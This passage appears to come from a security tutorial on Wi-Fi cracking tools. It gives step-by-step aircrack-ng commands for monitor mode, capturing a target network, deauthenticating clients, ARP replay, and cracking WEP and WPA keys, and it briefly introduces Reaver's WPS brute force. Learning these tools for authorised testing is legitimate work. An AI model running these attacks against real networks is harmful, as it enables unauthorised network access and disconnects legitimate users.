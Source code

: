 For example, Aircrack-ng can crack a WEP password in a few minutes by IV attack.    

To use aircrack-ng on a network interface, this interface must be in monitor mode.  
This allows it to receive all traffic, even packets not intended for it.  
Some network cards allow monitor mode, but they would default to normal mode discarding all traffic intended to other devices.

```shell
# using the ip / iw commands
sudo ip link set wlan0 down                 # turn down the wlan0 interface
sudo iw dev wlan0 set type monitor          # change the interface type to monitor
sudo ip link set wlan0 up                   # turn the interface back up, it should be renamed to wlan0mon

# alternatively we can use airmon-ng to set an interface in monitor mode
airmon-ng start wlan0
```

Once we have a wireless network interface wlan0mon in monitor mode, we can scan for wireless networks :

```shell
# list wireless networks accessible by a network interface, with all its data :
# BSSID / power / number of beacons received / number of packets received / encryption / channel / ESSID (network name)
airodump-ng wlan0mon

# Start capturing the traffic on the target wireless network and save it to a file
airodump-ng --channel <CHANNEL> --bssid <BSSID> --write MyHackedTraffic wlan0mon

# force an authenticated client to deconnect, so we can capture its reconnection traffic
# authenticated clients are listed by airdump-ng
aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon

# Keep above command running and in another terminal send an auth request
aireplay-ng --fakeauth 0 -a <BSSID> -h <wlan0mon MAC ADDRESS> wlan0mon

# Get some ARP messages
aireplay-ng --arpreplay -b <BSSID> -h <wlan0mon MAC ADDRESS> wlan0mon 

# Crack the network using the IVs from the captured traffic
# It will try to infer the WEP key from all captured IVs
# It may fail if not enough data, it reruns every 5000 data captured by the scan 
aircrack-ng MyHackedTraffic.cap

# try to crack the WPA/WPA2 key using a wordlist
aircrack-ng -w <WORDLIST> -b <BSSID> MyHackedTraffic.cap 
```


### Reaver / wash

**Reaver** is a command-line tool to crack the access code for WPA Wifi routers with WPS enabled.  
It brute-forces the WPS handshaking process to crack WPA networks.  
It usually takes several hours to complete the attack.
